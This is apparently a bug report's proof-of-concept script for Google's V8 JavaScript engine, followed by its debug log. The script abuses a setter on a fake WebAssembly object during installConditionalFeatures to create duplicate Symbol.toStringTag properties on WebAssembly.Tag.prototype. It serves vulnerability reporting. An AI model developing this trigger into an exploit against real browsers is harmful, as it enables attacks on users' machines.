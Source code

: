 ```javascript
////////////// PoC //////////////
let array = [1.1, 2.2];

let object_1 = {};
let object_2 = {};
object_1.__defineSetter__("Tag", function(val) {
  console.log("setter!!");
  //val.prototype[Symbol.toStringTag] = array;
  Object.defineProperty(val.prototype, Symbol.toStringTag, {value: array, configurable: true});
  this._Tag = val;
});
object_2.__proto__ = object_1;

WebAssembly = object_2;
d8.test.installConditionalFeatures();

%DebugPrint(WebAssembly._Tag.prototype);
console.log(WebAssembly._Tag.prototype[Symbol.toStringTag]);
console.log(delete WebAssembly._Tag.prototype[Symbol.toStringTag]);
console.log(WebAssembly._Tag.prototype[Symbol.toStringTag]);
%DebugPrint(WebAssembly._Tag.prototype);
```

```
############ LOG ############
DEBUG:: Shell::InstallConditionalFeatures
DEBUG:: WasmJs::InstallConditionalFeatures starts!
DEBUG:: WasmJs::InstallConditionalFeatures has_eh()
DEBUG:: WasmJs::InstallConditionalFeatures, JSObject? 1 ,  JSProxy? 0
setter!!
DEBUG:: SetupConstructor starts! name: WebAssembly.Tag
DEBUG:: SetupConstructor, let's add property!
DEBUG:: WasmJs::InstallConditionalFeatures, finished!
DebugPrint: 0x34a90004b19d: [JS_OBJECT_TYPE]
 - map: 0x34a900207e69 <Map(HOLEY_ELEMENTS)> [DictionaryProperties]
 - prototype: 0x34a9001c42f5 <Object map = 0x34a9002021e9>
 - elements: 0x34a900002261 <FixedArray[0]> [HOLEY_ELEMENTS]
 - properties: 0x34a90004b1d5 <NameDictionary[17]>
 - All own properties (excluding elements): {
   constructor: 0x34a9001d3af5 <JSFunction Tag (sfi = 0x34a9001d3ad1)> (data, dict_index: 1, attrs: [W_C])
   0x34a900005e39 <Symbol: Symbol.toStringTag>: 0x34a90004b0a5 <JSArray[2]> (data, dict_index: 2, attrs: [__C])
   0x34a900005e39 <Symbol: Symbol.toStringTag>: 0x34a90004b2bd <String[15]: "WebAssembly.Tag"> (data, dict_index: 3, attrs: [__C])
 }
0x34a900207e69: [Map]
 - type: JS_OBJECT_TYPE
 - instance size: 28
 - inobject properties: 4
 - elements kind: HOLEY_ELEMENTS
 - unused property fields: 0
 - enum length: invalid
 - dictionary_map
 - may_have_interesting_symbols
 - prototype_map
 - prototype info: 0
 - prototype_validity cell: 0x34a900144519 <Cell value= 1>
 - instance descriptors (own) #0: 0x34a9000021f5 <Other heap object (STRONG_DESCRIPTOR_ARRAY_TYPE)>
 - prototype: 0x34a9001c42f5 <Object map = 0x34a9002021e9>
 - constructor: 0x34a9001c3f09 <JSFunction Object (sfi = 0x34a90015675d)>
 - dependent code: 0x34a9000021e9 <Other heap object (WEAK_ARRAY_LIST_TYPE)>
 - construction counter: 0

```